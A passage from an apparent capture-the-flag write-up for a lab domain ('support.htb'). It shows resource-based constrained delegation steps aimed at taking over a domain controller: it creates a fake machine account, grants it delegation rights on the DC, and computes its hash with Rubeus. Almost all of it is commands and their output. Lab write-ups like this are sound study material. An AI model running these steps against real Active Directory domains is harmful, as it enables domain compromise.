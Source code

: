 Now we just follow the instructions found with bloodhound to execute the exploit and take over the DC.

* Step 1 (add-machine)

```bash
New-MachineAccount -MachineAccount FAKE-COMP01 -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)
[+] Machine account FAKE-COMP01 added
```

* Step 2 (check if the machine has been created)

```bash
Get-ADComputer -identity FAKE-COMP01

DistinguishedName : CN=FAKE-COMP01,CN=Computers,DC=support,DC=htb
DNSHostName       : FAKE-COMP01.support.htb
Enabled           : True
Name              : FAKE-COMP01
ObjectClass       : computer
ObjectGUID        : 41388f07-9e13-4fe2-a4aa-76fce5e9d1b0
SamAccountName    : FAKE-COMP01$
SID               : S-1-5-21-1677581083-3380853377-188903654-5601
UserPrincipalName :
```

* Step 3 (grant the DC permission to delegate the fake machine)

```bash
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount FAKE-COMP01$
```

* Step 4 (confirm step 3 worked)

```bash
Get-ADComputer -Identity DC -Properties PrincipalsAllowedToDelegateToAccount


DistinguishedName                    : CN=DC,OU=Domain Controllers,DC=support,DC=htb
DNSHostName                          : dc.support.htb
Enabled                              : True
Name                                 : DC
ObjectClass                          : computer
ObjectGUID                           : afa13f1c-0399-4f7e-863f-e9c3b94c4127
PrincipalsAllowedToDelegateToAccount : {CN=FAKE-COMP01,CN=Computers,DC=support,DC=htb}
SamAccountName                       : DC$
SID                                  : S-1-5-21-1677581083-3380853377-188903654-1000
UserPrincipalName                    :
```
* Step 5 (generate an NTLM hash given a password for the fake machine)

```bash
.\Rubeus.exe hash /password:Password123 /user:FAKE-COMP01$ /domain:support.htb

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0


[*] Action: Calculate Password Hash(es)

[*] Input password             : Password123
[*] Input username             : FAKE-COMP01$
```